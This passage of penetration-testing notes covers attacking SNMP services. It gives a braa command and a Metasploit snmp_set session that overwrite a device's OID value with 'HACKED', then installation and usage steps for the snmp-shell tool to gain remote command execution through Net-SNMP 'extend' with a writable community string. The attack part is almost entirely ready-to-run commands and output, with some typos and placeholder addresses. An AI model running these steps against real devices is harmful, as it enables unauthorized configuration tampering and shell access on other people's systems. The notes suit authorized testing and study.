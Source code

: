 - **revalue OID**
    - **braa** 	     `braa community@IP.151.20.3:port:.1.3.6.oid.9.1.4.5=newvalue` 
    - **metasploit**
    
```bash
    msf6>use scanner/snmp/snmp_set
    msf6 auxiliary(scanner/snmp/snmp_set) > show options 
    
    Module options (auxiliary/scanner/snmp/snmp_set):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMUNITY  public           yes       SNMP Community String
       OID                         yes       The object identifier 
       OIDVALUE                    yes       The value to set
       RETRIES    1                yes       SNMP Retries
       RHOSTS                      yes       
       RPORT      161              yes       The target port (UDP)
       THREADS    1                yes       The number of concurrent threads
       TIMEOUT    1                yes       SNMP Timeout
       VERSION    1                yes       SNMP Version <1/2c>
       
    msf6 auxiliary(scanner/snmp/snmp_set) > set RHOSTS IP 
    msf6 auxiliary(scanner/snmp/snmp_set) > set VERSION 1 OR 2c 
    msf6 auxiliary(scanner/snmp/snmp_set) > set COMMUNITY privateasexampel 
    msf6 auxiliary(scanner/snmp/snmp_set) > set OID .1.3.ta.rg.et.oi.d.9.4.5
    msf6 auxiliary(scanner/snmp/snmp_set) > set OIDVALUE HACKED

```
    


> [!SUCCESS]  
> Here We Will talk about how to  gain shell access (RCE) from snmp
### **RCE Linux with Extend Net-SNMP (Net-SNMP-Extend-MIB)**

1. [snmpshell](https://github.com/mxrch/snmp-shell)

‣ **Installation** 

```bash

sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

‣ Usage
 

```bash
python3 shell.py IP.12.123.10 -c privateasexaple -v 1|2c
Simulates a terminal over Net-SNMP "extend" functionality. Be sure your
SNMP Community String has write access.
-ss, --snmpset TEXT         Path for the snmpset binary
-sw, --snmpwalk TEXT        Path for the snmpwalk binary

```
